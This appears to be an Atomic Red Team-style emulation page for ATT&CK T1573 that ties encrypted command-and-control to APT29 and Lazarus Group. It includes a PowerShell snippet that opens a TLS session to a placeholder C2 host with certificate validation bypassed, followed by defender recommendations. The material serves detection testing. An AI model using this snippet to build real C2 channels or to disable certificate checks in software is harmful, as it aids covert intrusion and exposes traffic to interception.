


# Atomic Red Team Tests for APT29 and Lazarus Group - T1573 Encrypted Channel

## [Description from ATT&CK](https://attack.mitre.org/techniques/T1573)
<blockquote>
Adversaries may employ a known encryption algorithm to conceal command and control traffic rather than relying on any inherent protections provided by a communication protocol. Despite the use of a secure algorithm, these implementations may be vulnerable to reverse engineering if secret keys are encoded and/or generated within malware samples/configuration files.
</blockquote>

### Attack Technique Overview
Encrypted Channel techniques involve adversaries using encryption to conceal their command and control communications. Both APT29 (Russian state-sponsored) and Lazarus Group (North Korean state-sponsored) extensively use encrypted channels to evade detection, blend with legitimate traffic, and protect their communications from interception and analysis.



## Atomic Test Analysis

### Atomic Test #1 - OpenSSL C2
**Technique:** SSL/TLS Encrypted Command and Control  
**Adversary Usage:** APT29 & Lazarus Group  
**Command:**
```powershell
$sslStream = New-Object System.Net.Security.SslStream($stream,$false,({$True} -as [Net.Security.RemoteCertificateValidationCallback]))
$sslStream.AuthenticateAsClient('fakedomain.example', $null, "Tls12", $false)
```



**Command Explanation:**
```powershell
$sslStream = New-Object System.Net.Security.SslStream($stream,$false,({$True} -as [Net.Security.RemoteCertificateValidationCallback]))
$sslStream.AuthenticateAsClient('fakedomain.example', $null, "Tls12", $false)
```
- **System.Net.Security.SslStream**: .NET class for SSL/TLS encrypted communications
- **Certificate validation callback**: `{$True}` bypasses all certificate validation (critical evasion technique)
- **AuthenticateAsClient**: Method to authenticate as client to server
- **'fakedomain.example'**: Example C2 domain (would be real domain in attacks)
- **'Tls12'**: Specifies TLS 1.2 encryption protocol
- **$false**: Disables certificate revocation checking

Both APT29 and Lazarus Group use SSL/TLS encryption for their command and control channels. This test demonstrates establishing an encrypted C2 session while bypassing certificate validation, which both groups have employed in various campaigns to evade network detection and analysis.

**APT29 Correlation:** APT29 has used encrypted channels extensively in their operations, including during the SolarWinds campaign where they employed various encryption methods for covert communications.
**Lazarus Correlation:** Lazarus Group frequently uses encrypted C2 channels in their financial attacks and destructive operations to maintain stealthy communications.

#### Dependencies: Run with `powershell`!
##### Description: PowerShell must be available
##### Check Prereq Commands:
```powershell
if ($PSVersionTable.PSVersion.Major -ge 3) { exit 0 } else { exit 1 }
```

## Correlation with APT29 & Lazarus Tradecraft

### APT29 Focus:
* **Sophisticated Encryption**: Uses advanced cryptographic techniques for C2 communications
* **Covert Operations**: Employs encrypted channels for long-term espionage activities
* **Protocol Imitation**: Blends encrypted C2 traffic with legitimate network protocols
* **SolarWinds Campaign**: Extensive use of encrypted channels for maintaining access

### Lazarus Group Focus:
* **Financial Operations**: Uses encryption for C2 in banking and cryptocurrency attacks
* **Destructive Attacks**: Employs encrypted communications in wiper malware operations
* **Rapid Communications**: Uses efficient encryption methods for quick C2 exchanges
* **Operation Dream Job**: Employed encrypted channels for maintaining access to compromised systems

### Common Tactical Objectives:
1. **Command and Control**: Maintain covert communications with compromised systems
2. **Defense Evasion**: Avoid detection by encrypting malicious network traffic
3. **Persistence**: Sustain long-term access through stealthy communications
4. **Exfiltration**: Securely transfer stolen data from victim environments

## Defender Recommendations

Based on this test, defenders should:

1. **Monitor for certificate validation anomalies** - Processes that disable certificate validation or bypass checks
2. **Implement SSL/TLS inspection** where appropriate and legally permissible
3. **Monitor for unusual SSL/TLS connections** - Especially to newly-registered or suspicious domains
4. **Establish network baselines** to detect unusual encrypted traffic patterns
5. **Use behavioral detection** for processes making encrypted connections unexpectedly

## Campaign References

1. **APT29 SolarWinds Campaign** (2020): Used encrypted channels for C2 communications throughout the compromise
2. **APT29 Various Operations**: Consistently employs encrypted communications for covert espionage
3. **Lazarus Financial Attacks**: Uses encrypted C2 channels in banking and cryptocurrency theft operations
4. **Lazarus Destructive Attacks**: Employs encrypted communications in wiper malware campaigns

## Academic References

1. MITRE ATT&CK Technique T1573 - Encrypted Channel
2. Microsoft: "NOBELIUM targeting IT supply chain" (2021)
3. US-CERT: "Hidden Cobra - North Korean Malicious Cyber Activity" (Lazarus Group)
4. CrowdStrike: "APT29 Tradecraft and Techniques" (2023)
5. FireEye: "APT29 Domain Fronting With TOR" (2017)